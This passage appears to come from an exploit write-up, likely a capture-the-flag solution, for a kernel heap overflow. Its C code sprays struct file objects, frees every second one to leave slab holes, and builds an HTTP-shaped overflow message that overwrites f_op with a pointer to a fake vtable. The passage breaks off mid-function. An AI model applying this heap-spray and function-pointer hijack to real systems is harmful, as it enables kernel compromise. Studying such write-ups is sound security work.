 Then to allocate many struct files in kernel by creating some random files, free half of them to create holes in memory and finaly send message which will hopefully overflow one of the struct files:

```c
#define HEAP_SPRAY_POWER 0x400

int send_overflow_msg()
{
    if (write(g_server_sock_fd, g_overflow_msg, g_overflow_msg_len) < 0)
    {
        perror("\t[!] Failed to send msg");
        return -1;
    }
    printf("\t[+] Send msg\n");

    return 0;
}

void overflow_struct_file()
{
    char file_path[0x100];

    /* Make kernel allocate multiple struct file. */
    for (int i = 0; i < HEAP_SPRAY_POWER; ++i)
    {
        sprintf(file_path, "/tmp/file_%d", i);
        g_fds[i] = open(file_path, O_CREAT | O_RDWR, 0644);
    }
    /* Now make kernel free every second struct file, creating holes in slabs. */
    for (int i = 0; i < HEAP_SPRAY_POWER; i += 2)
    {
        if (g_fds[i])
        {
            close(g_fds[i]);
            g_fds[i] = 0;
        }
    }
    /* And quickly try to allocate msg so it lands in the hole and overflow one of the struct files. */
    send_overflow_msg();
}
```

The message has to overflow the f_op field so it points to fake vtable, but it has to be a valid request so I created it like this:

```c
#define FILE_STRUCT_SLAB_SIZE 256
#define MSG_PREFIX "GET aaa HTTP/1.1\r\n"   \
                   "Content-Length:232\r\n" \
                   "\r\n"

uint64_t g_overflow_msg[37];
size_t g_overflow_msg_len;

int init() {
    [...]
    /* Fill g_overflow_msg structure with msg_prefix concatenated with addresses of g_fake_fops. */
    g_overflow_msg_len = strlen(MSG_PREFIX) + FILE_STRUCT_SLAB_SIZE;
    memcpy((void *)g_overflow_msg, MSG_PREFIX, strlen(MSG_PREFIX));
    /* This is possible as strlen(MSG_PREFIX) % 8 == 0. */
    for (int i = strlen(MSG_PREFIX) / sizeof(uint64_t); i < g_overflow_msg_len / sizeof(uint64_t); ++i)
    {
        g_overflow_msg[i] = (uint64_t)&g_fake_fops;
```